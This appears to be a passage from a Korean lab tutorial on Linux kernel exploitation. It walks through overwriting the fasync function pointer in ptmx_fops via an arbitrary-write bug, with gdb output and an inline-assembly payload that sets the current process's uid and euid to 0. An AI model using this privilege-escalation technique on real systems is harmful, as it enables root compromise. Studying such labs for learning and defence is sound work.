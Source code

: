 링크의 글에서는 AAW 취약점을 통해 `/dev/ptmx` 디바이스의 `file_operations`(fops)구조체 내에 존재하는 함수 포인터를 덮는 방식으로 익스플로잇을 진행한다.

우선, `ptmx_fops` 구조체의 주소부터 구해보자.

```sh
test@ubuntu:~/exercises/arbitrary_write$ sudo cat /proc/kallsyms | grep "ptmx_fops"
ffffffff81f148a0 b ptmx_fops
test@ubuntu:~/exercises/arbitrary_write$
```

`MasterVM`에서 remote debugging을 통해 위에서 구한 주소에 위치한 구조체를 확인한다.

```c
root@master:~# gdb kernels/vmlinux-3.5.0-23-generic -q
Reading symbols from kernels/vmlinux-3.5.0-23-generic...done.
(gdb) target remote 192.168.94.1:8864
Remote debugging using 192.168.94.1:8864
native_safe_halt () at /build/buildd/linux-lts-quantal-3.5.0/arch/x86/include/asm/irqflags.h:50
warning: Source file is more recent than executable.
50	}
(gdb) p *(struct file_operations*)0xffffffff81f148a0
$1 = {owner = 0x0 <irq_stack_union>, llseek = 0xffffffff81187030 <no_llseek>,
  read = 0xffffffff813eb820 <tty_read>, write = 0xffffffff813ebfe0 <tty_write>,
  aio_read = 0x0 <irq_stack_union>, aio_write = 0x0 <irq_stack_union>, readdir = 0x0 <irq_stack_union>,
  poll = 0xffffffff813eb780 <tty_poll>, unlocked_ioctl = 0xffffffff813ed720 <tty_ioctl>,
  compat_ioctl = 0xffffffff813eb6a0 <tty_compat_ioctl>, mmap = 0x0 <irq_stack_union>,
  open = 0xffffffff813f5f30 <ptmx_open>, flush = 0x0 <irq_stack_union>,
  release = 0xffffffff813ecc30 <tty_release>, fsync = 0x0 <irq_stack_union>,
  aio_fsync = 0x0 <irq_stack_union>, fasync = 0xffffffff813eb650 <tty_fasync>,
  lock = 0x0 <irq_stack_union>, sendpage = 0x0 <irq_stack_union>,
  get_unmapped_area = 0x0 <irq_stack_union>, check_flags = 0x0 <irq_stack_union>,
  flock = 0x0 <irq_stack_union>, splice_write = 0x0 <irq_stack_union>,
  splice_read = 0x0 <irq_stack_union>, setlease = 0x0 <irq_stack_union>,
  fallocate = 0x0 <irq_stack_union>}
(gdb) p &$1.fasync
$2 = (int (**)(int, struct file *, int)) 0xffffffff81f14920 <ptmx_fops+128>
(gdb)
```

`fasync` 함수 포인터가 `ptmx_fops+128` 위치에 존재하므로 해당 포인터를 `payload()` 함수 주소로 덮은 후 `fcntl(ptmx, F_SETFL, FASYNC);` 명령을 통해 `fasync` 함수 포인터를 호출할 수 있다.

`payload()` 함수는 이전 [lab3](https://nonetype.github.io/2019-09-23/Linux-Kernel-Exploit-Development-lab3#do-lpe---automated)에서 사용했던 `automated privilege escalation` 코드를 재사용한다.

```c
void __attribute__((regparm(3))) payload() {
        asm(
                "pushq %rax;"                                   /* save Registers */
                "pushq %rcx;"
                "movq %rsp, %rax;"                              /* get SP */
                "movq $0xFFFFFFFFFFFFE000, %rcx;"               /* calc THREAD_SIZE */
                "andq %rcx, %rax;"                              /* calc thread_info */
                "movq (%rax), %rcx;"                            /* get task_struct */
                "movq 0x458(%rcx), %rax;"                       /* get real_cred */
                "movl $0, 0x04(%rax);"                          /* set  uid */
                "movl $0, 0x14(%rax);"                          /* set euid */
                "popq %rcx;"                                    /* restore Registers */
                "popq %rax;"
        );
}
```
